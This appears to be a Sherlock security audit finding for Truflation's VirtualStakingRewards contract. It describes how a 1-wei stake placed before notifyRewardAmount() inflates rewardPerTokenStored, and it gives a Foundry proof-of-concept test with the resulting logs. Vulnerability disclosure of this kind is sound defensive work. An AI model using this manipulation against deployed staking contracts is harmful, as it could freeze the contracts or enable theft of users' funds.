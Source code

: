 Fluffy Clay Hippo

medium

# VirtualStakingRewards Storage Vulnerability

## Summary

Any user who calls `VirtualStakingRewards.notifyRewardAmount()` prematurely can corrupt storage data, rendering the contract ***unusable***.

https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/staking/VirtualStakingRewards.sol#L88

https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/staking/VirtualStakingRewards.sol#L54

## Vulnerability Detail

By staking a small amount (e.g., 1 token) before the execution of `VirtualStakingRewards.notifyRewardAmount()`, one can manipulate `_totalSupply`. After the deposit and the call to VirtualStakingRewards.notifyRewardAmount(), the first legitimate stake can bypass `_totalSupply == 0` in `rewardPerToken()` by assigning an extremely high value to rewardPerTokenStored.

## Impact

This vulnerability can render the contract unusable and potentially lead to token theft with further investigation.

## Code Snippet

modify updateReward with this:

```solidity
    modifier updateReward(address account) {
        rewardPerTokenStored = rewardPerToken();
        console.log("rewardPerTokenStored");
        console.log(rewardPerTokenStored);
        lastUpdateTime = lastTimeRewardApplicable();
        console.log("lastUpdateTime");
        console.log(lastUpdateTime);
        if (account != address(0)) {
            rewards[account] = earned(account);
            console.log("rewards[account]");
            console.log(rewards[account]);
            userRewardPerTokenPaid[account] = rewardPerTokenStored;
            console.log("userRewardPerTokenPaid[account]");
            console.log(userRewardPerTokenPaid[account]);
        }
        _;
    }
 ```
and run this test:

```solidity

    function testStake1() external {
        
        uint256 amount = 10e18;
        address carl = makeAddr("carl");

        console.log("Alice stakes 1 wei token...");

        _stake(alice, 1); 

        uint256 rewards = 30e18;

        console.log("1 day later...");

        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1);

        console.log("Notifying 30e18 rewards...");

        vm.startPrank(rewardsDistribuion);

        trufToken.transfer(address(trufStakingRewards), rewards);
        trufStakingRewards.notifyRewardAmount(rewards);

        vm.stopPrank();

        console.log("3 days later...");

        vm.warp(block.timestamp + 3 days);
        vm.roll(block.number + 1);

        console.log("bob stakes 10e18...");

        _stake(bob, amount);

        console.log("1 day later...");

        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1);

        console.log("carl stakes 10e18...");

        _stake(carl, amount);
    }
```

Expected logs:

```solidity
Notifying 30e18 rewards...
  rewardPerTokenStored
  0
  lastUpdateTime
  0
  3 days later...
  bob stakes 10e18...
  rewardPerTokenStored
  0
  lastUpdateTime
  1697162330
  rewards[account]
  0
  userRewardPerTokenPaid[account]
  0
  1 day later...
  carl stakes 10e18...
  rewardPerTokenStored
  428571428571423360
  lastUpdateTime
  1697248730
  rewards[account]
  0
  userRewardPerTokenPaid[account]
  428571428571423360
```

Returned Logs:

```solidity
Alice stakes 1 wei token...
  rewardPerTokenStored
  0
  lastUpdateTime
  0
  rewards[account]
  0
  userRewardPerTokenPaid[account]
  0
  1 day later...
  Notifying 30e18 rewards...
  rewardPerTokenStored
  0
  lastUpdateTime
  0
  3 days later...
  bob stakes 10e18...
  rewardPerTokenStored
  12857142857142700800000000000000000000
  lastUpdateTime
  1697162330
  rewards[account]
  0
  userRewardPerTokenPaid[account]
  12857142857142700800000000000000000000
  1 day later...
  carl stakes 10e18...
  rewardPerTokenStored
  12857142857142700800428571428571423359
  lastUpdateTime
  1697248730
  rewards[account]
  0
  userRewardPerTokenPaid[account]
  12857142857142700800428571428571423359

```
## Tool used

Foundry

## Recommendation

I didn't have much time to check for additional vectors, so suggesting a solution without considering other cases might leave some bugs. It is advised to conduct a thorough review for possible additional vulnerability points and ensure a comprehensive solution before implementing any changes.
